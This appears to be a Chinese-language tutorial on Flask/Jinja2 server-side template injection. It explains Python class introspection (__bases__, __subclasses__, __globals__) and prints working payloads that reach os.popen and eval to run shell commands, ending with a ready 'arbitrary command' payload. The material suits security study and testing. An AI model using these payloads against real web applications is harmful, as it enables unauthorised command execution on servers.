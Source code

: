 {% raw %}

```python
"""
# __calss__
print("".__class__)
# 返回了<class 'str'>，对于一个空字符串他已经打印了str类型

# __bases__
# 每个类都有一个bases属性，列出其基类如下
print("".__class__.__bases__)	# 打印返回(<class 'object'>,)

# mro
# 我们想要寻找object类的不仅仅只有bases，同样可以使用mro，mro给出了method resolution order，即【解析方法调用的顺序】。如下
>>> print(" ".__class__.__mro__)
(<class 'str'>, <class 'object'>)

# 正是由于这些但不仅限于这些方法，我们才有了各种沙箱逃逸的姿势
# 在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。我们这里只举例最简单的。接下来我们增加代码。接下来我们使用subclasses,subclasses() 这个方法，这个方法返回的是这个类的子类的集合，也就是object类的子类的集合。
# subclasses()  返回的是这个类的子类的集合
print(" ".__class__.__bases__[0].__subclasses__())

# 需要自己寻找合适的标号来调用接下来我将进一步解释
# 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法
# 通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class 'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118]。
{{" ".__class__.__bases__[0].__subclasses__()[118]}}

# 这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
{{" ".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}

# 此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下。
{{" ".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}

# 此时便可以看到命令已经执行。如果是在linux系统下便可以执行其他命令。此时我们已经成功得到权限。
    
"""    
```

{% endraw %}

**执行任意命令**的payload:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls").read()') }}         # poppen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
